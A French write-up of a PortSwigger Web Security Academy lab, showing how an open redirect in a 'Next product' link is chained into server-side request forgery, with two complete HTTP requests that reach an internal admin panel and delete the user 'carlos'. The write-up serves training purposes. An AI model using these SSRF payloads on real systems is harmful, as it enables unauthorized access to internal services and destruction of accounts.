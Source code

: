 # Lab

https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection

## Solution

Il y a une open redirection dans le sitevia le lien `Next product` qui redirige vers `https://0af000de03e3d65382dcdff6005500c1.web-security-academy.net/product/nextProduct?currentProductId=3&path=/product?productId=4`.

Si on modifie le paramètre `path` pour qu'il pointe vers un site externe, on peut faire une SSRF.

```http
POST /product/stock HTTP/2
Host: 0af000de03e3d65382dcdff6005500c1.web-security-academy.net
Cookie: session=Vjosk5BlBUVJzDZDJkA3z2aQaxN1xCtj; session=IteJFG2MUbHoT0xtRIkpsZ9Ud1p6GFWK
Content-Length: 92
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0af000de03e3d65382dcdff6005500c1.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0af000de03e3d65382dcdff6005500c1.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

stockApi=/product/nextProduct%3fcurrentProductId%3d2%26path%3dhttp://192.168.0.12:8080/admin
```

Nous emmène vers la page d'admin de l'application.

On peut réutiliser cette requête pour supprier l'utilisateur `carlos`:

```http
POST /product/stock HTTP/2
Host: 0af000de03e3d65382dcdff6005500c1.web-security-academy.net
Cookie: session=Vjosk5BlBUVJzDZDJkA3z2aQaxN1xCtj; session=IteJFG2MUbHoT0xtRIkpsZ9Ud1p6GFWK
Content-Length: 115
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0af000de03e3d65382dcdff6005500c1.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0af000de03e3d65382dcdff6005500c1.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

stockApi=/product/nextProduct%3fcurrentProductId%3d2%26path%3dhttp://192.168.0.12:8080/admin/delete?username=carlos
```
